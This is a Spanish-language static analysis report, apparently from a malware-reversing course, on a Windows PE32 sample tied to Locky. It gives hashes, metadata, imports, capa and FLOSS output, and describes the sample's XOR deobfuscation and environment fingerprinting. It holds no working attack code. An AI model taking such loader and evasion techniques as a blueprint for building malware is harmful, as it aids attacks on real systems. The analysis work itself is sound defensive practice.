# **1. Información general de la muestra**

**Primera caracterización de la muestra:**
```bash
└─$ file malware.exe               
malware.exe: PE32 executable for MS Windows 5.01 (GUI), Intel i386, 6 sections
```
| Campo             | Interpretación                                                                                                                               |
| ----------------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| `PE32 executable` | Es un ejecutable Windows de **32 bits**.                                                                                                     |
| `Intel i386`      | Arquitectura **x86**, por tanto debemos analizarlo con **x32dbg**.                        |
| `MS Windows 5.01` | El binario declara compatibilidad con **Windows XP / NT 5.1**. Puede ser normal en binarios antiguos o compiladores/configuraciones legacy.  |
| `GUI`             | Es una aplicación gráfica, no de consola.                                            |
| `6 sections`      | Tiene 6 secciones PE. Conviene revisar nombres, permisos, tamaños y entropía para detectar packing, payloads embebidos o secciones anómalas. |


**Analizamos metadatos con Exiftool:**
```bash
└─$ exiftool malware.exe                       
ExifTool Version Number         : 13.50
File Name                       : malware.exe
Directory                       : .
File Size                       : 163 kB
File Modification Date/Time     : 2020:11:10 16:47:08+01:00
File Access Date/Time           : 2026:05:31 15:16:42+02:00
File Inode Change Date/Time     : 2026:05:31 15:15:18+02:00
File Permissions                : -rw-rw-r--
File Type                       : Win32 EXE
File Type Extension             : exe
MIME Type                       : application/octet-stream
Machine Type                    : Intel 386 or later, and compatibles
Time Stamp                      : 2016:03:30 08:03:35+02:00
Image File Characteristics      : Executable, Large address aware, 32-bit
PE Type                         : PE32
Linker Version                  : 9.0
Code Size                       : 61952
Initialized Data Size           : 104448
Uninitialized Data Size         : 0
Entry Point                     : 0x74e6
OS Version                      : 5.1
Image Version                   : 0.0
Subsystem Version               : 5.1
Subsystem                       : Windows GUI
File Version Number             : 4.1.0.612
Product Version Number          : 4.1.0.612
File Flags Mask                 : 0x0000
File Flags                      : (none)
File OS                         : Windows NT 32-bit
Object File Type                : Executable application
File Subtype                    : 0
Language Code                   : English (U.S.)
Character Set                   : Unicode
Company Name                    : Doubtsoftware.com
File Description                : Advanced Task Scheduler 32-bit Edition
File Version                    : 4.1.0.612
Internal Name                   : #dvenced Task Scheduler 32-bit Edition
Legal Copyright                 : Copyright © Southsoftware.com, 2002-2015
Original File Name              : Bifscheduler_edmin.exe
Product Name                    : Advanced Task Scheduler 32-bit Edition
Product Version                 : 4.1.0.612
``` 

La salida de exiftool aporta metadatos PE y recursos de versión. Lo más relevante es:
| Campo                        | Valor                                     | Interpretación                                                                                            |
| ---------------------------- | ----------------------------------------- | --------------------------------------------------------------------------------------------------------- |
| `File Type`                  | `Win32 EXE`                               | Ejecutable Windows de 32 bits.                                                                            |
| `Machine Type`               | `Intel 386`                               | Arquitectura **x86**. Debemos analizar con x32dbg/Ghidra en modo 32-bit.                                   |
| `Subsystem`                  | `Windows GUI`                             | No es aplicación de consola. Puede ejecutarse sin mostrar ventana visible.                                |
| `Time Stamp`                 | `2016:03:30 08:03:35+02:00`               | Timestamp de compilación declarado en la cabecera PE. Puede estar manipulado.                             |
| `Linker Version`             | `9.0`                                     | Compatible con toolchain tipo Visual Studio 2008, aunque no es concluyente.                               |
| `Entry Point`                | `0x74e6`                                  | RVA del punto de entrada. Interesante para ubicar inicio de ejecución en Ghidra/x32dbg.                   |
| `Image File Characteristics` | `Executable, Large address aware, 32-bit` | PE ejecutable de 32 bits con flag `LargeAddressAware`.                                                    |
| `Code Size`                  | `61952`                                   | Tamaño de código relativamente pequeño.                                                                   |
| `Initialized Data Size`      | `104448`                                  | Los datos inicializados ocupan más que el código; conviene revisar recursos, `.rdata`, `.data` y overlay. |
| `File Size`                  | `163 kB`                                  | Muestra pequeña/mediana. Compatible con loader, dropper o binario empaquetado ligero.                     |


**El binario intenta aparentar ser `Advanced Task Scheduler 32-bit Edition`, pero hay inconsistencias en los metadatos:**
```bash
Company Name: Doubtsoftware.com
Copyright: Southsoftware.com
Internal Name: #dvenced Task Scheduler 32-bit Edition
Original File Name: Bifscheduler_edmin.exe
```

La muestra es un ejecutable `PE32` para `Windows x86`, configurado como aplicación `GUI` y con punto de entrada en `RVA 0x74e6`. Los metadatos de versión indican que intenta identificarse como `Advanced Task Scheduler 32-bit Edition`, `versión 4.1.0.612`. Sin embargo, se observan inconsistencias relevantes en los recursos de versión, como la diferencia entre `Doubtsoftware.com` y `Southsoftware.com`, el nombre interno `Advanced Task Scheduler` y el nombre original `Bifscheduler_edmin.exe`, lo que sugiere posible manipulación, suplantación o reutilización de un binario legítimo. Estos metadatos deben considerarse de baja confianza hasta contrastarlos con firma digital, `hashes` y una copia legítima del software.


**Comprobamos que tiene la firma inicial de todo ejecutable PE de Windows:**
```shell
└─$ xxd -l 64 malware.exe                                                           
00000000: 4d5a 9000 0300 0000 0400 0000 ffff 0000  MZ..............
00000010: b800 0000 0000 0000 4000 0000 0000 0000  ........@.......
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 f000 0000  ................
```

| Offset | Bytes         | Campo        | Interpretación                                        |
| -----: | ------------- | ------------ | ----------------------------------------------------- |
| `0x00` | `4d 5a`       | `e_magic`    | Firma `MZ`. Indica cabecera DOS válida.               |
| `0x02` | `90 00`       | `e_cblp`     | Tamaño parcial de la última página DOS. Valor normal. |
| `0x04` | `03 00`       | `e_cp`       | Número de páginas DOS. Valor típico.                  |
| `0x08` | `04 00`       | `e_cparhdr`  | Tamaño de la cabecera DOS en párrafos.                |
| `0x0c` | `ff ff`       | `e_maxalloc` | Campo DOS legacy. Normal en ejecutables PE.           |
| `0x10` | `b8 00`       | `e_sp`       | Stack pointer DOS legacy.                             |
| `0x18` | `40 00`       | `e_lfarlc`   | Offset de la tabla de relocalizaciones DOS.           |
| `0x3c` | `f0 00 00 00` | `e_lfanew`   | Offset donde empieza la cabecera PE: `0xF0`.          |


El volcado hexadecimal inicial muestra la firma `MZ` en el `offset 0x0`, confirmando la presencia de una cabecera DOS válida. El campo `e_lfanew` ubicado en `0x3c `contiene el valor `0x000000F0`, lo que indica que la cabecera `PE` comienza en el `offset 0xF0`. Esta estructura es consistente con un ejecutable `PE` de Windows correctamente formado.


## **1.2 Hashes y footprinting**
Como parte de la identificación inicial de la muestra, se calcularon hashes criptográficos y hashes difusos con el objetivo de obtener indicadores únicos y facilitar la correlación con otras muestras o bases de datos de inteligencia de amenazas.
```bash
└─$ md5sum malware.exe   
b66eb4bcb2860ef48afbc1378e1ae545  malware.exe
                                                                                                                                                      
└─$ sha256sum malware.exe
49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc  malware.exe
```

```bash
└─$ ssdeep malware.exe
ssdeep,1.1--blocksize:hash:hash,filename
3072:j9UJ3gySjKLkEfwoZaNEP3N2QdW4BVa7NnnFRdqDGowa9:j61NSjVmaN63NiL4Di,"malware.exe"
```

Los hashes criptográficos obtenidos para el fichero malware.exe son los siguientes:
- MD5: b66eb4bcb2860ef48afbc1378e1ae545.
- SHA-256: 49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc.

**Calculamos el hash difuso mediante ssdeep:**
```bash
└─$ ssdeep malware.exe                                                                          
ssdeep,1.1--blocksize:hash:hash,filename
3072:j9UJ3gySjKLkEfwoZaNEP3N2QdW4BVa7NnnFRdqDGowa9:j61NSjVmaN63NiL4Di,"/home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T7/malware.exe"
``` 

El uso de `ssdeep` resulta útil para realizar comparaciones por similitud con otras muestras, incluso cuando no son idénticas byte a byte. Esto permite detectar variantes relacionadas, muestras recompiladas, binarios parcialmente modificados o familias de malware que comparten una base de código común.


## **1.3 Consultas externas**

**A) VirusTotal:**  
https://www.virustotal.com/gui/file/49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc  



La muestra con SHA-256 49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc aparece en fuentes públicas asociada a Locky/locky.exe y clasificada como maliciosa. Los metadatos del binario intentan aparentar software legítimo, concretamente Advanced Task Scheduler 32-bit Edition, pero presentan inconsistencias claras.

El análisis estático avanzado realizado localmente muestra una fase inicial ofuscada que modifica permisos de memoria, desofusca una región interna mediante una rutina tipo XOR y transfiere ejecución hacia dicha región. Los reportes dinámicos externos complementan esta hipótesis al observar actividad de red maliciosa, incluyendo POSTs sospechosos hacia recursos .php y comunicación asociada a infraestructura maliciosa.

Por tanto, la muestra debe clasificarse como malware tipo loader/dropper asociado a Locky, con técnicas de ofuscación, desofuscación en memoria, evasión ligera y comunicación de red maliciosa observada en sandbox.

**B) Filescan:**  
https://www.filescan.io/reports/49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc/45feb18e-b065-4205-af82-64895008f7d9/details  

FileScan clasifica la muestra como `CONFIRMED THREAT`. El fichero aparece identificado como `locky.exe`, con etiquetas como `locky`, `razy`, `greyware`, `shell32.dll`, `fingerprint` y `stealer`. El motor de reputación de `OPSWAT` marca el recurso como malicioso, y el informe indica que se verificaron `141 IOCs`, se extrajeron 19 ficheros y el veredicto final agregado fue `Confirmed Threat`.


**Los indicadores más relevantes marcados por FileScan son:**
| Indicador                  | Riesgo           | Interpretación                                                              |
| -------------------------- | ---------------- | --------------------------------------------------------------------------- |
| Reputación OSINT maliciosa | Confirmed Threat | La muestra aparece marcada como maliciosa por fuente externa de reputación. |
| APIs para privilegios      | High Risk        | Importa `OpenProcessToken`, `AdjustTokenPrivileges` y `DuplicateTokenEx`.   |
| APIs asociadas a inyección | High Risk        | Importa `CreateThread`, `VirtualAlloc`, `OpenProcess` y `OpenProcessToken`. |
| Modificación de ACLs       | High Risk        | Importa `SetNamedSecurityInfoW`.                                            |
| Entropía inusual           | Low Risk         | Sección con entropía anómala, asociada por FileScan a posible packing.      |
| APIs de packer             | Low Risk         | Importa `VirtualProtectEx` y `VirtualAlloc`.                                |

**C) AnyRun:**  
https://any.run/report/49a48d4ff1b7973e55d5838f20107620ed808851231256bb94c85f6c80b8ebfc/920d82e7-b5dc-4d47-a5b1-12954c8e57db


# **2. Triage estático inicial**

Este análisis inicial permite confirmar que se trata de un ejecutable Windows `PE` válido, de `32 bits`, orientado a arquitectura `x86`. También permite obtener información útil para decidir el entorno de análisis posterior, como el uso de herramientas de depuración de `32 bits`, por ejemplo `x32dbg`, y la carga del binario en Ghidra configurado para arquitectura `x86 little endian`.

## **2.1 Identificacion PE y arquitectura**
La ejecución del comando `rabin2 -I malware.exe` devuelve la siguiente información principal sobre la muestra:
```bash
└─$ rabin2 -I malware.exe 
arch     x86
baddr    0x400000
binsz    162816
bintype  pe
bits     32
canary   true
injprot  false
retguard false
class    PE32
cmp.csum 0x00028f37
compiled Wed Mar 30 08:03:35 2016
crypto   false
endian   little
havecode true
hdr.csum 0x00028f37
laddr    0x0
lang     c
linenum  false
lsyms    false
machine  i386
nx       true
os       windows
overlay  false
cc       cdecl
pic      true
relocs   false
signed   false
sanitize false
static   false
stripped false
subsys   Windows GUI
va       true
```

A partir de estos resultados se confirma que la muestra es un ejecutable `PE32` para Windows, compilado para arquitectura `Intel i386/x86`. El campo bits `32` confirma que se trata de un binario de `32 bits`, por lo que el análisis dinámico deberá realizarse preferentemente en un entorno `Windows de 32 bits` o mediante un depurador compatible como `x32dbg`.

El campo `baddr 0x400000` indica la dirección base preferida de carga del ejecutable, valor habitual en binarios `PE` de 32 bits. El tamaño del binario (`binsz`) es de 162.816 bytes, aproximadamente `163 KB`, lo que lo sitúa como una muestra de tamaño reducido/medio. Este tamaño es compatible con un loader, dropper o ejecutable con funcionalidad concentrada.

La muestra está identificada como `bintype pe` y `class PE32`, lo que confirma su estructura de ejecutable Portable Executable de Windows. Además, `havecode true` indica que el archivo contiene código ejecutable, y os windows confirma que está destinado a sistemas Microsoft Windows.

El campo `subsys Windows GUI` indica que el binario está configurado como aplicación gráfica y no como aplicación de consola. Esto implica que, durante una ejecución normal, no necesariamente mostrará salida por terminal ni ventana de consola, aunque puede ejecutar acciones en segundo plano.

En cuanto a protecciones y características del binario, `nx` true indica compatibilidad con `Data Execution Prevention (DEP/NX)`, lo que impide la ejecución de código en regiones de memoria marcadas como no ejecutables. El campo `canary true` sugiere la presencia de protección frente a corrupción de pila, aunque este dato debe contrastarse posteriormente con el análisis de funciones y prólogos en desensamblador.

El campo `signed false` indica que la muestra no está firmada digitalmente, por lo que no cuenta con una firma `Authenticode` válida embebida según la información extraída por la herramienta. Esto es relevante porque impide asociar directamente el binario a un editor verificado mediante certificado.


El campo `overlay` false indica que no se ha detectado `overlay` al final del fichero. Esto reduce la probabilidad de que existan datos añadidos tras la última sección `PE`, aunque no descarta la presencia de payloads o configuración embebida dentro de secciones, recursos u otras estructuras internas.

Finalmente, `relocs false` indica ausencia de tabla de relocalizaciones, lo que puede limitar la capacidad del binario para cargarse correctamente en una dirección distinta de su base preferida. El campo `stripped false` indica que el binario no aparece completamente despojado de información auxiliar, aunque esto no implica necesariamente la presencia de símbolos útiles para el análisis.

<mark>En conjunto, la muestra se caracteriza inicialmente como un ejecutable Windows `PE32 de 32 bits`, arquitectura `x86`, aplicación `GUI`, sin firma digital y sin `overlay` detectado. Estos datos orientan el análisis posterior hacia la revisión de cabeceras `PE`, secciones, imports, recursos, strings y comportamiento potencial en un entorno de análisis `Windows x86`.</mark>


## **2.3 Desofuscador**
**Aplicamos el plugin desofuscador para Ghidra:** [ghidra_universal_string_deobfuscator.py](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/3-M9T3/utiles/scripts_ghidra/ghidra_universal_string_deobfuscator.py)

```
ghidra_universal_string_deobfuscator.py> Running...
[*] Program: malware.exe
[*] Output directory: /tmp/ghidra_universal_deobfuscator_v2_malware.exe
[*] Starting filtered multi-format deobfuscation...
[*] XOR enabled: False
[*] Scanning block: Headers 00400000 - 004003ff
[*] Scanning block: .text 00401000 - 004101ff
[*] Scanning block: .rdata 00411000 - 004197ff
[+] direct/ascii   00417720  Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb
[+] direct/ascii   00417e92  Module32NextW
[+] direct/ascii   00417ea2  GetFileSizeEx
[+] direct/ascii   00417eb2  OpenProcess
[+] direct/ascii   00417ec0  GetLogicalDrives
[+] direct/ascii   00417ed4  CreateDirectoryW
[+] direct/ascii   00417ee8  Module32FirstW
[+] direct/ascii   00417efa  FreeLibrary
[+] direct/ascii   00417f08  GetLocalTime
[+] direct/ascii   00417f18  ExitThread
[+] direct/ascii   00417f26  GetFileSize
...
...
[+] CSV written: /tmp/ghidra_universal_deobfuscator_v2_malware.exe/deobfuscator_results.csv
[+] Finished
[+] Results kept: 232
[+] Output directory: /tmp/ghidra_universal_deobfuscator_v2_malware.exe
ghidra_universal_string_deobfuscator.py> Finished!
capa_ghidra.py> Running...
```

**Destacamos:**
|  Dirección | String                                                    | Interés                                                                                                 |
| ---------: | --------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `00417720` | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb` | **Muy interesante.** Ruta PDB. Sirve como artefacto de compilación / posible IOC / pista de build path. |


**Destacamos: Reconocimiento de procesos / módulos:**
```bash
00417f7a  CreateToolhelp32Snapshot
004183b8  Process32FirstW
0041858c  Process32NextW
00417e92  Module32NextW
00417ee8  Module32FirstW
00417eb2  OpenProcess
004182c6  OpenThread
00418da2  GetWindowThreadProcessId
00418402  ProcessIdToSessionId
```

Sugiere enumeración de procesos, hilos o módulos cargados. Esto suele verse en malware que busca procesos concretos, analiza el entorno, localiza procesos para inyección o evita ciertas herramientas.

**Destacamos: Memoria / posible inyección / manipulación de procesos:**
```bash
00418110  ReadProcessMemory
0041817a  VirtualAlloc
004182d4  VirtualQueryEx
004189d8  VirtualProtectEx
00418046  CreateFileMappingW
0041851e  OpenFileMappingW
0041818a  CreateThread
004181fe  TerminateProcess
```
ReadProcessMemory, VirtualQueryEx y VirtualProtectEx son especialmente sospechosas si se combinan con OpenProcess. Puede apuntar a lectura/manipulación de memoria de otros procesos, unpacking, evasión, inyección o análisis del espacio de memoria.

**Destacamos: Carga dinámica de APIs:**
```bash
0041827e  LoadLibraryW
004188e4  LoadLibraryA
004185cc  LoadLibraryExW
00418a30  LoadLibraryExA
0041863a  GetProcAddress
004180de  GetModuleHandleA
00418360  GetModuleHandleW
```
Indica resolución dinámica de funciones. Es común en malware para ocultar capacidades reales, cargar DLLs bajo demanda o dificultar el análisis estático.


**Destacamos: Ficheros, rutas y posible persistencia:**
```bash
00418092  GetModuleFileNameW
004180b8  GetModuleFileNameA
004180a8  GetTempPathW
00418552  GetTempFileNameW
00418484  CreateFileW
0041884a  CreateFileA
004186d6  WriteFile
00418866  ReadFile
00418270  DeleteFileW
0041857e  MoveFileExW
00417ed4  CreateDirectoryW
004185f8  RemoveDirectoryW
0041828e  FindFirstFileW
004184a4  FindNextFileW
00418872  GetFileAttributesW
```
Apunta a creación, lectura, escritura, movimiento y borrado de archivos. GetTempPathW + GetTempFileNameW + CreateFileW + WriteFile puede indicar dropper, extracción de payload, staging temporal o modificación de archivos.


**Destacamos: Inventario del sistema / entorno:**
```bash
00417ec0  GetLogicalDrives
00418916  GetDriveTypeW
00418834  GetDiskFreeSpaceExW
004186be  GetVolumeInformationW
0041860c  ExpandEnvironmentStringsW
00418996  GetEnvironmentVariableW
00418926  SetEnvironmentVariableA
00418762  GetVersionExW
00418a42  GetVersion
004182b0  EnumSystemLocalesA
00418900  GetUserDefaultLCID
0041802c  GetTimeZoneInformation
004187ae  GetSystemTimeAsFileTime
004182f8  GetTickCount
```
Puede ser fingerprinting del sistema: idioma, zona horaria, versión de Windows, unidades disponibles, volumen del disco, variables de entorno. Útil para evasión geográfica, anti-sandbox o configuración de rutas.


## **2.4 Capacidades de la muestra**
Para identificar capacidades relevantes de la muestra se ha aplicado el [plugin capa para Ghidra](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-4-vulnerabilidades-herramientas-analisis-malware/2-M4-Tarea-Colaborativa/tarea2.md), utilizando las reglas ubicadas en Escritorio/capa-rules. El análisis se realizó de forma estática sobre el binario malware.exe, identificado como un ejecutable Portable Executable (PE) para sistema operativo Windows y arquitectura x86.

La herramienta identificó la muestra con el siguiente hash MD5:

b66eb4bcb2860ef48afbc1378e1ae545

El análisis fue realizado con capa 9.2.1, empleando el extractor de Ghidra y tomando como dirección base del binario 0x400000. Durante el proceso se analizaron 13 funciones y se extrajeron un total de 3153 características, lo que permitió detectar varias capacidades de interés para el análisis estático.


**Aplicamos el plugin capa para Ghidra:**
```bash
Script ghidra_scripts/capa_ghidra.py called exit with code 0
capa_ghidra.py> Finished!
capa_ghidra.py> Running...
INFO:capa_ghidra:running capa using rules from Escritorio/capa-rules

md5                     b66eb4bcb2860ef48afbc1378e1ae545                        
timestamp               2026-05-31 15:51:41.915392                              
capa version            9.2.1                                                   
os                      windows                                                 
format                  Portable Executable (PE)                                
arch                    x86                                                     
analysis                static                                                  
extractor               ghidra                                                  
base address            0x400000                                                
rules                   Escritorio/capa-rules                    
function count          13                                                      
library function count  0                                                       
total feature count     3153                                                    

contain loop (3 matches, only showing first match of library rule)
author  moritz.raabe@mandiant.com
scope   function                 
function @ 0x402029
  or:
    characteristic: tight loop @ 0x402050

create or open registry key (library rule)
author  michael.hunhoff@mandiant.com, anushka.virgaonkar@mandiant.com           
scope   basic block                                                             
mbc     Operating System::Registry::Create Registry Key [C0036.004], Operating  
        System::Registry::Open Registry Key [C0036.003]                         
basic block @ 0x4027F0 in function 0x40246C
  or:
    api: RegOpenKey @ 0x4027FE

get OS version (library rule)
author  @mr-tz  
scope   function
function @ 0x40246C
  or:
    api: GetVersion @ 0x4024BF, 0x4025D0

encode data using XOR
namespace  data-manipulation/encoding/xor                                       
author     moritz.raabe@mandiant.com                                            
scope      basic block                                                          
att&ck     Defense Evasion::Obfuscated Files or Information [T1027]             
mbc        Defense Evasion::Obfuscated Files or Information::Encoding-Standard  
           Algorithm [E1027.m02], Data::Encode Data::XOR [C0026.002]            
basic block @ 0x402050 in function 0x402029
  and:
    characteristic: tight loop @ 0x402050
    characteristic: nzxor @ 0x40209A
    not: = filter for potential false positives
      or:
        or: = unsigned bitwise negation operation (~i)
          number: 0xFFFFFFFF = bitwise negation for unsigned 32 bits
          number: 0xFFFFFFFFFFFFFFFF = bitwise negation for unsigned 64 bits
        or: = signed bitwise negation operation (~i)
          number: 0xFFFFFFF = bitwise negation for signed 32 bits
          number: 0xFFFFFFFFFFFFFFF = bitwise negation for signed 64 bits
        or: = Magic constants used in the implementation of strings functions.
          number: 0x7EFEFEFF = optimized string constant for 32 bits
          number: 0x81010101 = -0x81010101 = 0x7EFEFEFF
          number: 0x81010100 = 0x81010100 = ~0x7EFEFEFF
          number: 0x7EFEFEFEFEFEFEFF = optimized string constant for 64 bits
          number: 0x8101010101010101 = -0x8101010101010101 = 0x7EFEFEFEFEFEFEFF
          number: 0x8101010101010100 = 0x8101010101010100 = ~0x7EFEFEFEFEFEFEFF

contains PDB path
namespace  executable/pe/pdb        
author     moritz.raabe@mandiant.com
scope      file                     
regex: /:\\.*\.pdb/
  - "Z:\\as\\28cxkoao\\azoozykz\\l0t\\jx\\w9y4cni\\jyc6mq3\\mvnt.pdb" @ file+0x417720

query environment variable
namespace  host-interaction/environment-variable          
author     michael.hunhoff@mandiant.com, @_re_fox         
scope      function                                       
att&ck     Discovery::System Information Discovery [T1082]
mbc        Discovery::System Information Discovery [E1082]
function @ 0x40246C
  or:
    api: GetEnvironmentVariable @ 0x4024AF, 0x40251F

check OS version
namespace  host-interaction/os/version                    
author     michael.hunhoff@mandiant.com, johnk3r          
scope      function                                       
att&ck     Discovery::System Information Discovery [T1082]
mbc        Discovery::System Information Discovery [E1082]
function @ 0x40246C
  and:
    match: get OS version @ 0x40246C
      or:
        api: GetVersion @ 0x4024BF, 0x4025D0
    or:
      and:
        instruction:
          and:
            mnemonic: cmp @ 0x402807
            number: 0x6 = Windows Vista / Windows Server 2008 @ 0x402807
        optional:
          instruction:
            and:
              mnemonic: cmp @ 0x402508
              or:
                number: 0x1 = Windows Server 2008 R2 / Windows 7 @ 0x402508

terminate process
namespace  host-interaction/process/terminate                                   
author     moritz.raabe@mandiant.com, mehunhoff@google.com,                     
           anushka.virgaonkar@mandiant.com                                      
scope      function                                                             
mbc        Process::Terminate Process [C0018]                                   
function @ 0x40246C
  or:
    api: exit @ 0x4024EC
    and:
      or:
        api: ExitProcess @ 0x402A58


Script /home/xxniwexx/ghidra_scripts/capa_ghidra.py called exit with code 0
capa_ghidra.py> Finished!
```


**Capacidades identificadas:**
| Capacidad                                     |                                       Dirección / función | Interpretación                                                                                                                                                                                              |
| --------------------------------------------- | --------------------------------------------------------: | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Bucle ajustado o repetitivo                   |            `function @ 0x402029`, `tight loop @ 0x402050` | Puede indicar una rutina de transformación de datos, descifrado, decodificación o procesamiento iterativo.                                                                                                  |
| Codificación mediante XOR                     |              `basic block @ 0x402050`, `nzxor @ 0x40209A` | Indica una rutina de manipulación u ofuscación de datos mediante XOR. Esta técnica suele utilizarse para ocultar cadenas, configuración, payloads o información sensible dentro del binario.                |
| Ruta PDB embebida                             | `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb` | Artefacto de compilación relevante. Puede servir como indicador para clustering, atribución técnica débil o correlación con otras muestras.                                                                 |
| Creación o apertura de clave de registro      |          `RegOpenKey @ 0x4027FE` en `function @ 0x40246C` | Sugiere interacción con el Registro de Windows. Puede estar relacionada con lectura de configuración, comprobaciones del sistema o persistencia, aunque sería necesario revisar las claves concretas.       |
| Consulta de variables de entorno              |           `GetEnvironmentVariable @ 0x4024AF`, `0x40251F` | Indica reconocimiento del entorno de ejecución. Puede utilizarse para obtener rutas, perfiles de usuario, configuración del sistema o detectar entornos de análisis.                                        |
| Obtención de versión del sistema operativo    |                       `GetVersion @ 0x4024BF`, `0x4025D0` | Permite identificar la versión de Windows en la que se ejecuta la muestra.                                                                                                                                  |
| Comprobación de versión del sistema operativo |           Comparaciones contra valores como `0x6` y `0x1` | La muestra no sólo obtiene la versión del sistema, sino que la compara con valores concretos. Esto puede utilizarse para adaptar comportamiento según la versión de Windows o evitar determinados entornos. |
| Terminación de proceso                        |               `exit @ 0x4024EC`, `ExitProcess @ 0x402A58` | La muestra contiene lógica para finalizar su ejecución. Puede formar parte de control de errores, evasión, comprobaciones previas o finalización tras detectar condiciones no deseadas.                     |


**Interpretación técnica:**
Uno de los hallazgos más relevantes es la detección de una rutina de codificación mediante `XOR` en la `función 0x402029`. La presencia de un bucle ajustado junto con una operación `XOR` no nula sugiere que la muestra podría transformar datos en memoria, posiblemente para decodificar cadenas, configuración interna o algún bloque ofuscado. Esta capacidad está asociada por capa con la **técnica Defense Evasion: Obfuscated Files or Information (T1027).**

También resulta relevante la presencia de una ruta `PDB` embebida:
```bash
Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb
```

Este artefacto puede aportar información sobre el entorno de compilación o el proceso de construcción de la muestra. Aunque la ruta parece aleatoria u ofuscada, debe conservarse como indicador técnico, ya que puede ayudar a correlacionar esta muestra con otras que compartan el mismo path de depuración.

La `función 0x40246C` concentra varias capacidades relevantes. En ella se identifican llamadas relacionadas con el Registro de Windows, consulta de variables de entorno, obtención de versión del sistema operativo y finalización del proceso. Esta agrupación sugiere que dicha función podría actuar como rutina de inicialización, comprobación del entorno o control previo de ejecución.

La detección de `GetEnvironmentVariable` y `GetVersion`, junto con comparaciones contra valores concretos de versión de Windows, apunta a una posible lógica de fingerprinting del entorno. No obstante, con esta salida no puede afirmarse de forma concluyente que exista una técnica `anti-VM `o `anti-sandbox` específica. Para confirmarlo sería necesario revisar las referencias cruzadas en Ghidra y determinar qué variables de entorno, claves de registro o versiones del sistema está comprobando la muestra.


Por otra parte, la presencia de `RegOpenKey` indica acceso al Registro de Windows. Esta capacidad puede ser empleada para consultar configuración del sistema, leer valores utilizados por la propia muestra o interactuar con claves relevantes para persistencia. Sin embargo, al no observarse en esta salida la clave concreta accedida, se debe tratar como una capacidad potencial pendiente de validación mediante análisis de código.

**Conclusiones:** El análisis con capa identifica capacidades compatibles con ofuscación de datos mediante `XOR`, fingerprinting del sistema, interacción con el Registro de Windows, consulta de variables de entorno, comprobación de versión del sistema operativo y terminación controlada del proceso. La `función 0x40246C` debe priorizarse en Ghidra por concentrar varias de estas capacidades, mientras que la `función 0x402029` debe revisarse para determinar qué datos son procesados mediante `XOR`.

Aunque los resultados no evidencian por sí solos una funcionalidad completa de red, persistencia o inyección, sí muestran varios bloques de código relevantes para entender la lógica inicial de la muestra y posibles mecanismos de evasión u ofuscación.


## **2.5 Floss**
Para complementar la extracción de cadenas de la muestra se utilizó FLOSS, herramienta de FLARE orientada a la identificación de strings estáticas, stack strings, tight strings y cadenas decodificadas en binarios potencialmente ofuscados.

```bash
└─$ floss malware.exe > floss_malware.txt
INFO: floss: extracting static strings
finding decoding function features: 100%|██████████████████████████████████████| 17/17 [00:00<00:00, 7935.80 functions/s, skipped 0 library functions]
INFO: floss.stackstrings: extracting stackstrings from 13 functions
extracting stackstrings: 100%|████████████████████████████████████████████████████████████████████████████████| 13/13 [00:00<00:00, 78.72 functions/s]
INFO: floss.tightstrings: extracting tightstrings from 1 functions...
extracting tightstrings from function 0x402029: 100%|███████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 82.99 functions/s]
INFO: floss.string_decoder: decoding strings
INFO: floss.results: KP2J                                                                                                                             
emulating function 0x4041db (call 1/1): 100%|█████████████████████████████████████████████████████████████████| 14/14 [00:00<00:00, 39.56 functions/s]
INFO: floss: finished execution after 3.18 seconds
INFO: floss: rendering results
```

Obtenemos el fichero [floss_malware.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/floss_malware.txt).

La herramienta identificó el binario como una muestra de lenguaje desconocido, formato PE para Windows, y realizó extracción de cadenas estáticas, análisis de stack strings, tight strings y búsqueda de posibles rutinas de decodificación. Resumen de resultados de FLOSS:
| Tipo de cadena   | Resultado |
| ---------------- | --------: |
| Static strings   |    `1561` |
| ASCII strings    |    `1530` |
| UTF-16LE strings |      `31` |
| Language strings |       `0` |
| Stack strings    |       `0` |
| Tight strings    |       `0` |
| Decoded strings  |       `1` |


También se identificó una ruta PDB embebida:

```bash
Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb

```
Este artefacto resulta relevante desde el punto de vista forense, ya que puede utilizarse como indicador para correlación con otras muestras o como pista sobre el entorno de compilación. La ruta presenta una estructura aparentemente aleatoria, por lo que no permite atribución directa, pero debe conservarse como IOC/artefacto técnico.

**Conclusiones:** El análisis con FLOSS muestra que la muestra contiene principalmente strings estáticas, con ausencia de stack strings y tight strings detectadas. Sólo se recuperó una cadena decodificada, KP2J, sin valor analítico claro de forma aislada.

Los elementos más relevantes obtenidos mediante FLOSS son la ruta PDB embebida, los imports de Windows asociados a capacidades sensibles y los metadatos de versión inconsistentes. No se observan indicadores directos de red como dominios, URLs o direcciones IP, aunque la presencia de imports de `WINHTTP.dll` mantiene la hipótesis de comunicación `HTTP/HTTPS `que deberá validarse mediante análisis de referencias cruzadas y análisis dinámico.


## 2.6 **Strings**

